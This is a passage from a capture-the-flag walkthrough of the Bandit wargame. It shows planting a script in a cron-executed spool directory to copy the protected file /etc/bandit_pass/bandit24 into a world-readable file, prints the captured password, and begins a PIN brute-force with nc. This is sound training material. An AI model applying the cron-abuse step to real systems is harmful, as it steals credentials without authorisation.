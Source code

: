 ``` plain
	timeout -s 9 60 "./$i"
	rm -f "./$i"
    fi
done
```

So this script executes and then deletes all scripts in the /var/spool/bandit24 directory. We can place a script of our own in there to copy the password of the bandit24 user in a location we have access to. I made a directory in /tmp/ first:

``` plain
bandit23@melinda:/tmp$ mkdir stuff
bandit23@melinda:/tmp$ cd stuff
```

Then I made a file that will hold the password later and gave it the most liberal permissions possible:

``` plain
bandit23@melinda:/tmp/stuff$ touch readme.txt
bandit23@melinda:/tmp/stuff$ chmod 777 readme.txt
```

Next, I made a script that will be executed by cron. It just copies the bandit24 password to the file I've created earlier.


``` plain
bandit23@melinda:/tmp/stuff$ cat > exeme.sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/stuff/readme.txt
```

I gave my script super permissive rights, then copied it to */var/spool/bandit24* to be executed:

``` plain
bandit23@melinda:/tmp/stuff$ chmod 777 exeme.sh
bandit23@melinda:/tmp/stuff$ cp exeme.sh /var/spool/bandit24/
```

Waited a bit, then profit:

``` plain
bandit23@melinda:/tmp/stuff$ cat readme.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```


### Level 24 -> Level 25

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinaties, called brute-forcing.

``` plain
bandit24@melinda:~$ nc -vv localhost 30002
Connection to localhost 30002 port [tcp/*] succeeded!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
```
